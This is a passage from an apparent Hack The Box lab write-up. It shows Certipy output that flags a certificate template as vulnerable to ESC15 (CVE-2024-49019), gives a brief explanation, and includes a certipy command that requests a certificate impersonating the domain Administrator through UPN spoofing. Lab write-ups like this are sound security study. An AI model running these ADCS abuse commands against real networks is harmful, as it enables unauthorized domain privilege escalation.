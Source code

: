 ```
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.

```

The **WebServer** template is vulnerable to **ESC15** vulnerability:

```
ESC15: Enrollee supplies subject and schema version is 1.
```

### Understanding ESC15

ESC15 (CVE-2024-49019) is a certificate template vulnerability where an attacker can inject arbitrary Application Policies into certificate requests when:
- The template uses schema version 1
- The enrollee can supply the subject

**References:**
- [ESC15 - Certipy Wiki](https://github.com/ly4k/Certipy/wiki/06-%e2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu)
- [CVE-2024-49019 Details](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019)
- [ADCS ESC Vulnerabilities Overview](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

### Initial Attempt (Failed)

My first attempt was to directly request a certificate with UPN spoofing:

```bash
certipy req -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -u 'cert_admin@tombwatcher.htb' -p 'NewPassword' \
    -dc-ip '10.10.11.72' -target 'DC01.TOMBWATCHER.HTB' \
    -upn 'Administrator@tombwatcher.htb' \
    -sid 'S-1-5-21-1392491010-1358638721-2126982587-500'
```

This generated an `administrator.pfx` certificate, but authentication failed because of a problem in the LDAP connection (possibly related to the OpenSSL version).
